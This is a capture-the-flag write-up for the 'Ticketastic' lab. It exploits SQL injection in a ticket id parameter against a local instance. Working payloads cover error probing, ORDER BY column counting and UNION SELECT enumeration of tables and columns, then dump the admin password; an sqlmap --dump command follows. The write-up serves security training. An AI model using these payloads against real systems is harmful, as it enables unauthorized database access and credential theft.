




# Ticketastic: Live Instance - FLAG1

## 0x00 Ticket Page

http://127.0.0.1/xxxxxxxxxx/ticket?id=1


## 0x01 Try Modify Parameters 

```sql
ticket?id=1'
```

Get some error message

```
Traceback (most recent call last):
  File "./main.py", line 78, in ticket
    cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

So it uses MySQL database and seems can be injected here.

Double check by try. The first link works but the second one shows error.

```sql
ticket?id=1 AND 1=1
ticket?id=1 AND 1=2
```

## 0x02 Get Table Fields Number

```sql
ticket?id=1 AND 1=1 ORDER BY 10
ticket?id=1 AND 1=1 ORDER BY 3
```

Reduce **RDER BY** number until it shows web page properly again.

While **ORDER BY 4** still shows ERROR but **ORDER BY 3** can perform correct. This means the Table selection has 3 fields.

## 0x03 Check Output Locations

```sql
ticket?id=1.1 UNION SELECT 1,2,3--
```


## 0x04 Get Current Database Version, TABLE_SCHEMA

```sql
ticket?id=1.1 UNION SELECT VERSION(),DATABASE(),3--
```



## 0x05 Get TABLE_NAME

```sql
ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()--
```


So the useful TABLE_NAME = users

## 0x06 Get COLUMN_NAME

```sql
ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='users'--
```



## 0x07 Dump Data (FLAG)

```sql
ticket?id=1.1 UNION SELECT 1,password,3 FROM users WHERE username='admin'--
```



## 0x08 Why Do Not Use SQLMAP?

Ok, let's do it with [SQLMAP][2] again.

### Catch the Request and Save to a File

Save the following request to the file [request.txt][1]
```
GET /xxxxxxxxxx/ticket?id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session_level7b={ADMIN SESSION}
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

And run the following command

```
python sqlmap.py -r request.txt --dump
```



[1]: ./request.txt
[2]: https://github.com/sqlmapproject/sqlmap